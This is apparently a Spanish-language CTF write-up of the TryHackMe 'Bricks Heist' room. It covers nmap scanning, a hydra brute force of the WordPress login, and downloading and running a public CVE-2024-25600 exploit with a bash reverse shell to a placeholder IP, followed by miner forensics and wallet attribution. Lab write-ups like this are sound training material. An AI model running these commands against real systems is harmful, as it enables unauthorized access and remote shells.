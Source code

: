 ```yaml
---
title: "TryHack3M: Bricks"
platform: "HTB"
publishedAt: 2025-05-22
cover: "/images/ctf/nota3-cover.webp"
preview: "brtbrtbrtb"
tags: [Hydra]
link: "texto.prueba"
toc:
  - text: "🕵️ Introducción"
    id: "introduccion"
  - text: "🔍 1. Escaneo inicial"
    id: "1-escaneo-inicial"
  - text: "🧱 2. Enumeración de WordPress"
    id: "2-enumeracion-de-wordpress"
  - text: "🔓 3. Acceso administrativo"
    id: "3-acceso-administrativo"
  - text: "💣 4. Exploiting CVE-2024-25600"
    id: "4-exploiting-cve-2024-25600"
  - text: "🐚 5. Post-explotación"
    id: "5-post-explotacion"
  - text: "🔍 6. Proceso y servicio sospechoso"
    id: "6-proceso-y-servicio-sospechoso"
  - text: "📄 7. Log del miner"
    id: "7-log-del-miner"
  - text: "💰 8. Wallet del miner"
    id: "8-wallet-del-miner"
  - text: "🕵️‍♂️ 9. Threat group"
    id: "9-threat-group"
  - text: "✅ Conclusión"
    id: "conclusion"
---
```


---


![image.png](/images/ctf/nota3-0.webp)


![image.png](/images/ctf/nota3-1.webp)


# 🧱 Bricks Heist – TryHackMe (Write-up)


![image.png](/images/ctf/nota3-2.webp)


## 🕵️ Introducción


Un sitio web WordPress fue comprometido. Nuestra misión: identificar el punto de entrada, recuperar acceso como administrador, detectar actividad maliciosa (minería), y rastrear al grupo de amenazas involucrado.


---


## 🔍 1. Escaneo inicial


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Servicios expuestos:

- 22: SSH
- 80: WebSockify (error 405)
- 443: WordPress 6.5
- 3306: MySQL (sin acceso)

---


## 🧱 2. Enumeración de WordPress

- Se detecta **tema activo: Bricks**
- Vulnerabilidad conocida: **CVE-2024-25600**
- Exploit público descargado desde GitHub

---


## 🔓 3. Acceso administrativo


Se obtuvo login con `administrator`, mediante fuerza bruta con `hydra`:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💣 4. Exploiting CVE-2024-25600


Se usó el script:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Ejemplo:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py \
  --url https://bricks.thm \
  --username administrator \
  --password TU_PASS \
  --cmd "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"
```


Se obtuvo **shell interactiva**.


---


## 🐚 5. Post-explotación


### Flag encontrada:


```plain text
css
CopyEdit
/var/www/html/650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 6. Proceso y servicio sospechoso


### Proceso:


```plain text
pgsql
CopyEdit
nm-inet-dialog
```


### Servicio malicioso:


```plain text
CopyEdit
ubuntu.service - TRYHACK3M
```


Verificado vía:


```shell
bash
CopyEdit
systemctl status ubuntu.service
```


---


## 📄 7. Log del miner


Log activo ubicado en:


```plain text
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


📌 **Respuesta (formato** **`xxxx.xxxx`****)**:


```plain text
pgsql
CopyEdit
inet.conf
```


---


## 💰 8. Wallet del miner


Del archivo `inet.conf`:


```plain text
text
CopyEdit
ID: WW1NeGNY...
```


Base64 → doble decode → wallet final:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


---


## 🕵️‍♂️ 9. Threat group


Wallet está asociada con el grupo de ransomware:


**LockBit**


(Confirmado por búsquedas OSINT y análisis de blockchain)


---


## ✅ Conclusión


Este CTF fue un excelente caso realista que combinó:

- Enumeración
- Explotación de CVE
- Análisis forense de logs y procesos
- Técnicas OSINT

Una gran práctica para pentesters y analistas de amenazas.

